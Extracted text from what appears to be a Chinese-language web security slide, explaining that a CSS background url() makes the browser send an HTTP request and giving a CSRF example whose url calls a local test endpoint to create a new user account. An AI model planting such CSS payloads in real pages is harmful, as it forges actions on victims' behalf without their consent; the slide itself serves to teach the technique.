

CSS - backgroud利用
可以利用 CSS中 background样式中的url来加载远程机器上的内容，从而对url中的内容发送HTTP请求

例如：

body
  {
  background: #00FF00 url(bgimage.gif) no-repeat fixed top;
  }
可以利用 CSS中 background样式中的url来加载远程机器上的内容，从而对url中的内容发送HTTP请求

例如：

body
  {
  background: #00FF00 url(“http://127.0.0.1/csrf_test/get_csrf/new_user.php?username=liuxiaoyang&password=123456”) no-repeat fixed top;
  }